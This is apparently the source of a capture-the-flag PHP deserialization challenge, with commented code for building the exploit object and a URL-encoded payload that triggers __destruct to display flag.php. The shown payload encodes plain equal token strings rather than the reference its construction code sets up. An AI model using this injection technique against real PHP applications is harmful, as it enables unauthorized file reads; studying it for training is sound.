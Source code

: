 

```php
//hint.php

<?php  
class Handle{ 
    private $handle;  
    public function __wakeup(){
        foreach(get_object_vars($this) as $k => $v) {
            $this->$k = null;
        }
        echo "Waking up\n";
    }
    public function __construct($handle) { 
        echo "__construct\n";
        $this->handle = $handle; 
    } 
    public function __destruct(){
        echo "__destruct\n";
        var_dump($this);
        $this->handle->getFlag();
    }
}

class Flag{
    public $file;
    public $token;
    public $token_flag;
 
    function __construct($file){
        echo "file __construct";
        $this->file = $file;
        $this->token_flag = $this->token = md5(rand(1,10000));
    }
    
    public function getFlag(){
        $this->token_flag = md5(rand(1,10000));
        echo "success";
        if($this->token === $this->token_flag)
        {
            if(isset($this->file)){

                echo @highlight_file($this->file,true); 
            }  
        }
    }
}
//下面代码是本地构造序列化串用的
//$a = new Flag("flag.php");
//$a->token = &$a->token_flag;
//$b = new Handle($a);
//var_dump(base64_encode(serialize($b)));
// &payload=O%3A6%3A%22Handle%22%3A2%3A%7Bs%3A14%3A%22%00Handle%00handle%22%3BO%3A4%3A%22Flag%22%3A3%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A5%3A%22token%22%3Bs%3A32%3A%226c90885b28e58d1f44856d787da2078f%22%3Bs%3A10%3A%22token_flag%22%3Bs%3A32%3A%226c90885b28e58d1f44856d787da2078f%22%3B%7D%7D
?>

```
